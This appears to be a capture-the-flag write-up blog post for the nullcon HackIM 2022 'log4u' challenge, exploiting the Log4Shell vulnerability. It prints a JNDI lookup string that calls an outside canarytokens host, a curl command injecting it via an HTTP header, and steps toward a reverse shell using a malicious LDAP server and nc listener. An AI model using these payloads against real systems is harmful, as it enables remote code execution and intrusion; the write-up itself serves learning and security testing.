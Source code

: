```yaml
---
layout: single
title: nullcon HackIM 2022
excerpt: nullcon HackIM 2022 Web Writeups
date: 2022-4-11
classes: wide
header:
  teaser: 
  teaser_home_page: false
  icon:
categories:
  - nullcon HackIM 2022
  - CTF Jeo
tags:  
  - CTF
---
```




| CTFTime Place | Points | Team |
| --- | --- | --- |
| [30](https://ctftime.org/event/1594/) | 912.000 | Solo - trelosgamiolis |


# 0x1 log4u
### Challenge Description
```A teacher once told me to "never log things you can't trust...", but it's such a nice business opportunity, so I couldn't resist.```


![b1a57c3f-71e1-4bbf-b299-717490b428fd](https://user-images.githubusercontent.com/45040001/162817938-341792b4-52b0-4d0b-8a90-cc8598d2b0d6.png)


## Identify log4shell vulnerability by triggering a DNS query
"The simplest way to detect if a remote endpoint is vulnerable is to trigger a DNS query. As explained above, the exploit will cause the vulnerable server to attempt to fetch some remote code. By using the address of a free online DNS logging tool in the exploit string, we can detect when the vulnerability is triggered."

![image](https://user-images.githubusercontent.com/45040001/162826021-f43f8f75-bd20-44c0-be68-52378c202bb3.png)
### Generated log4shell token:
```java
${jndi:ldap://x${hostName}.L4J.z5wbevl1c0v3t8gxs856c96m3.canarytokens.com/a}
```

"CanaryTokens.org is an Open Source web app for this purpose that even generates the exploit string automatically and sends an email notification when the DNS is queried. Select Log4Shell from the drop-down menu. Then, embed the string in a request field that you expect the server to log. This could be in anything from a form input to an HTTP header. In our example above, the X-Api-Version header was being logged. This request should trigger it:"

```bash
curl $URL -H 'X-Api-Version: ${jndi:ldap://x${hostName}.L4J.z5wbevl1c0v3t8gxs856c96m3.canarytokens.com/a}'
```
![Screenshot_2022-04-08_21_17_11](https://user-images.githubusercontent.com/45040001/162826208-c584bd56-8411-4d8e-944e-71bc5925fd36.png)

## POC
[log4j shell poc](https://github.com/kozmer/log4j-shell-poc)

## Exploit Steps
- Generate a reverse shell java class(just modify the poc for forward attack)
- Upload the reverse shell java class in HTTP Server 
- Start malicious ldap server giving the HTTP Server URL for redirecting the victim
- Start nc listener for reverse shell
![flag](https://user-images.githubusercontent.com/45040001/162826580-8d33dcae-e97f-4cdc-9679-749646111c9b.png)
